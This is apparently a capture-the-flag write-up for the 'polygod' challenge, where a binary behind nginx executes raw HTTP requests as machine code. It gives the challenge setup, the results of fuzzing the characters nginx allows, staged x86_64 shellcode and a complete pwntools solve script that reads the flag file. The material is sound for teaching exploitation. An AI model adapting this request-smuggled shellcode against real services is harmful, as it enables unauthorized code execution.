


Shellcoding but through nginx and its proxy.

# Intro

Challenge description:
> HTTP parsing is so simple. You just couldn't possibly get it wrong.

Challenge files:
- [docker-compose.yml](../assets/posts/2025-10-19-polygod-writeup/challenge-files/docker-compose.yml)
- [Dockerfile](../assets/posts/2025-10-19-polygod-writeup/challenge-files/Dockerfile)
- [index.html](../assets/posts/2025-10-19-polygod-writeup/challenge-files/index.html)
- [polygod](../assets/posts/2025-10-19-polygod-writeup/challenge-files/polygod)

# Challenge Docker

In the challenge docker:
1. install tools.
2. set the nginx config and copy over the challenge files.
3. run the bash commands:
    - `nginx; echo \"$FLAG\" > /flag.txt` which saves the flag from the `FLAG` environment variable to the `/flag.txt` file.
    - `socat TCP4-LISTEN:8080,reuseaddr,fork EXEC:/srv/polygod` which sets up `socat` to listen on TCP port `8080` for incoming connection, forks on a new connection to execute `/srv/polygod`, and pipes the data from the connection to ``/srv/polygod` and the output of `/srv/polygod` back to the connection.

```docker
FROM ubuntu@sha256:dc17125eaac86538c57da886e494a34489122fb6a3ebb6411153d742594c2ddc
RUN apt update -y
RUN apt install -y nginx socat
COPY --chmod=0755 <<"EOF" /etc/nginx/sites-available/default
server {
    ... show below to save space on the page ...
}
EOF
COPY --chmod=0555 polygod /srv/polygod
COPY --chmod=0555 index.html /srv/index.html
CMD ["bash", "-c", "nginx; echo \"$FLAG\" > /flag.txt; socat TCP4-LISTEN:8080,reuseaddr,fork EXEC:/srv/polygod"]
```

# nginx Config

In the nginx config:
1. listen on port `80` for incoming http connections.
2. sets the document root to be `/srv` and handles errors by redirecting to `index.html`.
3. handles requests to root, `/`, and checks if the HTTP request method is a single word (`A-Za-z0-9_`), then proxies the request to `http://localhost:8080` where `/srv/polygod` is listening.

```nginx
listen 80 default_server;
listen [::]:80 default_server;
root /srv;
server_name _;
error_page  502 = @disappointing_gateway;
location / {
        if ($request_method ~ "^\w+$" ) {
                proxy_pass http://localhost:8080;
        }
        try_files /index.html =404;
}
location @disappointing_gateway {
        try_files /index.html =404;
}
```

# polygod Program

The main function is pretty straightforward:
1. mmaps code(`rwx`) page and data(`rw`) page.
2. sleeps for a second, maybe to wait for proxy piping data to stdin before reading from it?
4. read from stdin which is the piped HTTP request data from the proxy at `http://localhost:8080`.
3. execute the code page by calling `run(code_rwx_page, data_rw_page)` which is executing the entire HTTP request as code.

The main function in [Binary Ninja's](https://binary.ninja/) Pseudo C view:


The run function pivots the stack to the mmaped data(`rw`) page by doing `mov rsp, rsi`. It then pushes `rdi` (the address of the mapped code(`rwx`) page holding stdin) onto the new stack, which decrements `rsp` by 8 and stores that address at `[rsp]`. A final `ret` will pop that qword and jump to it, transfering `rip` into the mapped code(`rwx`) page. The run function also clears registers before returning.

The run function in [Binary Ninja's](https://binary.ninja/) Disassembly view:


# Fuzzing for Input Constraints

Since `polygod` takes the entire HTTP request and executes it as code, the goal is to craft the HTTP request so that its prefix (start up to some point) can be interpreted as valid instructions and does not trigger errors such as segfault.

A minimal HTTP GET request looks like this:
```http
GET / HTTP/1.1\r\n
Host: localhost\r\n
\r\n
```

but we really only care about places where we can put user data without breaking the HTTP specification, so the above can be abstracted into:
```http
[Method] / HTTP/1.1\r\n
Host: [HOSTNAME]\r\n
\r\n
```

## Method
From here, I tried fuzzing `Method` by sending HTTP requests with each `A-Za-z0-9_` character in `Method` and checking for the `400 Bad Request` response.

The fuzzing revealed that **nginx only will send the HTTP request to the proxy if the `Method` contains `A-Z_` characters (uppercase and/or underscore)**.

With the registers cleared and the fact that `A-Z_` characters can only be interpreted as machine code of `push` or `pop` in x86_64, I concluded that this is not enough to get code execution.

So I looked at the next place that can hold user data without breaking the HTTP specification.

## abs_path of Request-URI
Based on the [HTTP specification rfc2516](https://datatracker.ietf.org/doc/html/rfc2616):

`Request-Line   = Method SP Request-URI SP HTTP-Version CRLF`

`Request-URI    = "*" | absoluteURI | abs_path | authority`

`abs_path` of `Request-URI` seems like a good place.

Checking on the nginx config again, the `location /` block, in this case, is actually a catch-all, meaning every request that starts with `/` will be handled by that block.

As a side note, in terms of the HTTP specification of `abs_path`, the `/` means empty `abs_path`.

The abstracted minimal HTTP GET request should be:
```http
[Method] [abs_path] HTTP/1.1\r\n
Host: [HOSTNAME]\r\n
\r\n
```

Note that `abs_path` must start with a `/`.

I assumed `abs_path` has only printable characters and fuzzed it with requests in the `abs_path` where it is a `/` followed by a printable character, then checked for the `400 Bad Request` response. However, for some reason this method of fuzzing for invalid characters didn't work like with `Method`. Some characters that returned `400 Bad Request` response were still allowed. I kept in mind that `abs_path` might allow some non-printable characters because I wasn't able to confirm this with fuzzing.

From there I just started to manually write assembly instructions instead of fixing/debugging the fuzzing.

# Shellcoding

The abstracted minimal HTTP GET request (first line):
```http
[Method] [abs_path] HTTP/1.1\r\n
```

## Shellcode Constraints

- `Method` can have machine code for `push` or `pop` x86_64 instructions because of the `A-Z_` characters constraint.
- `abs_path` must start with `/`, but I don't know the exact characters that are allowed, so I'll do some trial and error to find allowed machine code of x86_64 instructions that helps with getting code execution.

## Exploit Overview

1. Stage 1 shellcode to put a readable/writable address in `rdi` for the instruction that's executed in the next step.
2. The required HTTP spec space followed by `/` is the machine code for the `and BYTE PTR [rdi], ch` x86_64 instruction.
3. Stage 2 shellcode to subtract the stack pointer by some fixed offset to get to the location of the Stage 3 shellcode, then jump to it or within the NOPs sled.
4. The remaining HTTP requests and Stage 3 shellcode

The abstracted HTTP exploit request:
```http
[STAGE1] /[STAGE2] HTTP/1.1\r\n
Host: localhost\r\n
Content-Length: [BODY_LENTH]\r\n
\r\n
[NOPS_SLED][STAGE3]
```

The above follows the structure of a HTTP POST request so that the request body, which do not have any constraints, can include Stage 3.

For Stage 3, I overwrote the `index.html` with the `flag.txt`, then visiting the website.

Looking back now, I could have just done `cat /flag.txt` instead because `socat` will pipe the output of `polygod` back to the connection.

## Disassembly of HTTP Exploit Request

```
 0:   54                      push   rsp                # start stage1
 1:   5f                      pop    rdi                # end of stage1
 2:   20 2f                   and    BYTE PTR [rdi], ch # space and slash
 4:   b0 ff                   mov    al, 0xff           # start of stage2
 6:   66 d1 e0                shl    ax, 1
 9:   66 d1 e0                shl    ax, 1
 c:   66 d1 e0                shl    ax, 1
 f:   66 d1 e0                shl    ax, 1
12:   48 29 c7                sub    rdi, rax
15:   48 29 c7                sub    rdi, rax
18:   57                      push   rdi
19:   58                      pop    rax
1a:   48 83 c0 50             add    rax, 0x50
1e:   ff e0                   jmp    rax               # end of stage2, jump to [NOP_SLED]
[REMAINING_PARTS_OF_REQUEST]
[NOP_SLED]
[STAGE3]
```

I am not sure why but **`abs_path` allows some non-printable ASCII characters** because I was able to include them in my stage2 shellcode.
Maybe they are allowed to account for non-printable ASCII characters of other languages?

# Solve script

```python
import socket
from pwn import *
import ssl
import string

context.arch = 'amd64'

def send_raw_http_request(hostname, port, request_bytes, use_ssl=False, debug=False):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(10)
        s.connect((hostname, port))
        if use_ssl:
            context = ssl.create_default_context()
            s = context.wrap_socket(s, server_hostname=hostname)

        s.sendall(request_bytes)

        if debug: input("Keeping connection alive for gdbserver attach\nPress Enter to continue...")

        try:
            response = s.recv(4096)
            return response
        except TimeoutError:
            return b""

def fuzz_method():
    print("fuzzing method...")
    allowed = []
    invalid = []
    for c in string.ascii_uppercase+string.ascii_lowercase+string.digits+"_":
        method = c.encode()
        req = (
            method + b" / HTTP/1.1\r\n"
            b"Host: localhost\r\n"
            b"\r\n"
        )
        resp = send_raw_http_request(HOST, PORT, req)
        print(resp)
        if b"HTTP/1.1 400 Bad Request" not in resp:
            print(f"allowed method: {c}")
            allowed.append(c)
        else:
            print(f"invalid method: {c}")
            invalid.append(c)

    return (allowed, invalid)

def fuzz_abspath():
    print("fuzzing abs_path...")
    allowed = []
    invalid = []
    for c in string.printable:
        abs_path = b"/"+c.encode()
        req = (
            b"GET " + abs_path + b" HTTP/1.1\r\n"
            b"Host: localhost\r\n"
            b"\r\n"
        )
        resp = send_raw_http_request(HOST, PORT, req)
        print(resp)
        if b"HTTP/1.1 400 Bad Request" not in resp:
            print(f"allowed abs_path: {c}")
            allowed.append(c)
        else:
            print(f"invalid abs_path: {c}")
            invalid.append(c)

    return (allowed, invalid)

if __name__ == "__main__":
    HOST = "localhost"
    PORT = 4000
    #HOST = "458bd46370b00b7b.polygod.lol" # for real challenge instance
    #PORT = 80 # for real challenge instance

    #allowed_method, invalid_method = fuzz_method()
    #print(f"allowed_method: {allowed_method}")
    #print(f"invalid_method: {invalid_method}")

    #allowed_abspath, invalid_abspath = fuzz_abspath()
    #print(f"allowed_abspath: {allowed_abspath}")
    #print(f"invalid_abspath: {invalid_abspath}")

    stage1_asm = """
    push rsp
    pop rdi
    """
    stage1_writeable_addr_rdi = asm(stage1_asm)
    print("stage1\n", disasm(stage1_writeable_addr_rdi))

    stage2_asm = """
        mov al, 0xff
        shl ax, 1
        shl ax, 1
        shl ax, 1
        shl ax, 1
        sub rdi, rax
        sub rdi, rax
        push rdi
        pop rax
        add rax, 0x50
        jmp rax
        """
    stage2_jmp_to_body = asm(stage2_asm)
    print("stage2\n", disasm(stage2_jmp_to_body))

    # init solve: overwrite index.html with flag.txt then check the website
    stage3_asm = shellcraft.execve("/bin/sh", ["sh", "-c", "cp /flag.txt /srv/index.html"])

    # post solve: just cat the flag, socat will pipe the output of polygod back to the connection
    stage3_asm = shellcraft.cat("/flag.txt")

    stage3_win = (b"\x90"*0x20)+asm(stage3_asm)
    print("stage3\n", disasm(stage3_win))

    method = stage1_writeable_addr_rdi
    abs_path = b"/" + stage2_jmp_to_body
    body = stage3_win
    req = (
        method + b" " + abs_path + b" HTTP/1.1\r\n"
        b"Host: localhost\r\n"
        b"Content-Length: " + str(len(body)).encode() + b"\r\n"
        b"\r\n" +
        body
    )
    print("req\n", disasm(req))
    print("sent req:")
    print(req)

    response = send_raw_http_request(HOST, PORT, req, use_ssl=False)
    #response = send_raw_http_request(HOST, PORT, req, use_ssl=True) # for real challenge instance
    print(response.decode("latin-1"))
```